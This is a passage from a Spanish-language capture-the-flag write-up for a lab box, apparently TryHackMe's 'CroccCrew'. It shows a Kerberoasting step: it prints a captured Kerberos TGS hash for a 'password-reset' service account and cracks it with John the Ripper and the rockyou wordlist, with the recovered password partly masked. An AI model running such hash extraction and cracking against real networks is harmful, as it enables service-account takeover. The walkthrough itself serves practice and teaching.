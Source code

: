 para ver si podemos encontrar una cuenta de servicio para abusar.

si hacen un `cat TGS.txt` veran que nos dejo un HASH, intentemos romperlo con John The Ripper.

````bash
┌──(samsepi0l㉿kali)-[~/CroccCrew]
└─$ cat TGS.txt 
$krb5tgs$23$*password-reset$COOCTUS.CORP$COOCTUS.CORP/password-reset*$55e86b71f95ce0d2ce585af36adaef82$0a0j4
b59f0cf442fcf95944a635d7d6610610d615599eadb25335df75e52f5e41a989824d47627e69757c13680c64b48b04126203088ed9ñ7
b67b3be376b889771b074bfdb70693ad038096cec5a4d4d28b0a6b2a0e8b2aef09567a9acddfb771480789959d9f1086a593c40cff79
325df896e5f8020e14e931e1323a997c64419265bd9c5d75a8d2db3b45a6209eba0bbc249a5d44f39231699fc4b7ee079978a5ddec6f
b573dbddff223a1999fe2c525baf818cce913996af8b2c605db82cf3a78a02e3b1f73c6ff135a6d4ac3cee353515e1ed2e192858f316
b749c0ae7182ca6ba731aede9fe34a42985b8e70460c9b9c551a943780d23adbce130dd41227fd7fcd0615b31c30ed539917e35369aa
2554a9e75995ca12f6462da7e2e021fb6de1d21f98005e5943da4d4bd4dd044e7eeca76134f6aceb55bdc574969461313cca6dc2661d
03ac19a507f43f4141eecf1d3ca18379a63d67b28a4658cf6ad0cd5308ca0ff0bf785f3a8658b333b9a6c1796cf2030b46d5cdd8015e
742198ef746e5199d8b54c332e326ac84977702e3fc38962bbafc3a042af519210b219a3351a145c34cfe0df32899f6c8d4fc7124efd
d30c706d7ad48bec71559ec262087de93e9ab068fd03145630e7925d450c960ae3f09f4c22053e26387ec8b49062ed798fe10d2cc01d
7b58fd4b141fbb4190104f015fe3f91d2c7db7ef9aa512fb4c71fb75e8cd502d74c0cf3cf6a81d4ce1f5c1046abb00fe0b5be9178bb8
c068006c152f77c2f8a83cfa7c0f9888100259e85bce28a4ff33057942600b885636416310b9c7d8d39c72978704a6784ee251e2c6af
210fb51a31c81e1e613c4cf72b792548f1cab61a59c55c620e8b34304c83d8c49cec156b6a72631ba428f1cf9b34569e91b533508215
111c57e170047eabb3b174fbcc7a2cb766542fb88e2724554462ffbaf46624ba7f443cdfcfee6b22527dd6af4126284937890c0d8237
93d21f4bfaab84fd1a1ba97a7263310ffe81afd13710f2394d6d77c603957ce2861761c45cba73d995a007c3442aa97344bd01f27e38
8d5ee392025b277479731a13207448efef4223c49585752b2bbfa9244812c42473d91956e22265abee560485e1b8b253db7555271c07
c8c4fbbdd88ceefe304fb38622060ce599d68de537c590428f4853ff54051a293f29dfc18ecf9dba782787b1c16bc6e320499facf5c6
d25e3d1e6319df78ec92c09deece8e909bbce94a699441a880e9a5b967184b7356ba9c628bbf2f90d0e8c199d5ce6481cfe4e226cd2e
a44bc1e3be560e3480ce92dbb54f8bd5bb58b407b6483b378a0a5f775175eb161aa81872bbe53
````

haremos un  `john TGS.txt -w=/usr/share/wordlists/rockyou.txt`

````bash
┌──(samsepi0l㉿kali)-[~/CroccCrew]
└─$ john TGS.txt -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Press 'q' or Ctrl-C to abort, almost any other key for status
re*********rd    (?)     
1g 0:00:00:00 DONE (2022-05-18 14:58) 2.439g/s 574751p/s 574751c/s 574751C/s rexon..reihan
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
````
